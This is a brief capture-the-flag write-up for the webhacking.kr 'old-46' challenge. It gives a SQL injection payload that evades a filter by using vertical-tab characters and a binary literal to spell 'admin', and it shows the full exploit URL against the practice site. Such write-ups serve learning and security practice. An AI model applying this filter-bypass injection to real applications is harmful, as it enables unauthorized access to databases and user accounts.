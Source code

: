 # Webhacking old-46 Solution

another sql injection. this time we can't use 0x, so we use 0b.
```5%0bor%0bid%0blike%0b0b0110000101100100011011010110100101101110#```

this is equivalent to `5 or id like 'admin'#`

```
https://webhacking.kr/challenge/web-23/?lv=5%0bor%0bid%0blike%0b0b0110000101100100011011010110100101101110#
```